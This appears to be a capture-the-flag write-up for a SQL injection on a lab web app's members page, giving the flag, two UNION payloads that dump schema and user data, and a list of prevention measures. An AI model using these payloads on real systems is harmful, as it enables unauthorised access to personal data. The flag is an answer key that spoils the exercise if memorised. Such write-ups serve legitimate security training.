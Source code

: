# Sql Injection

## Flag

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery and Exploitation

1. Navigate to the **MEMBERS** page.
2. To list all tables in the database, insert the following SQL query:
   ```sql
   1 AND true UNION SELECT table_name, column_name FROM information_schema.columns
   ```
3. To list all columns in the `users` table, insert the following SQL query:
   ```sql
   1 AND true UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
   ```
   > **Note:** The `CONCAT` function is used because there is a restriction that only two columns can be retrieved.
4. Follow the instructions for the user with ID 5 to obtain the flag.

## Why it works

SQL injection works by manipulating the SQL query that is executed by the application. By inserting specially crafted input, an attacker can alter the query's logic, allowing them to access or manipulate data they shouldn't be able to. In this case, the `UNION` operator is used to combine the results of the original query with the results of a malicious query, effectively bypassing the application's intended behavior and exposing sensitive information.

## Prevention

To prevent SQL injection attacks, consider the following measures:

1. **Use Prepared Statements**: Prepared statements ensure that user input is treated as data and not executable code.
2. **Parameterized Queries**: Always use parameterized queries to separate SQL code from data.
3. **Input Validation**: Validate and sanitize all user inputs to ensure they conform to expected formats.
4. **Least Privilege Principle**: Limit database user permissions to only what is necessary for the application to function.
5. **Regular Security Audits**: Conduct regular security audits and code reviews to identify and fix vulnerabilities.
6. **Use ORM Frameworks**: Use Object-Relational Mapping (ORM) frameworks that provide built-in protection against SQL injection.
7. **Web Application Firewalls (WAF)**: Implement WAFs to detect and block SQL injection attempts.

By following these best practices, you can significantly reduce the risk of SQL injection attacks on your application.
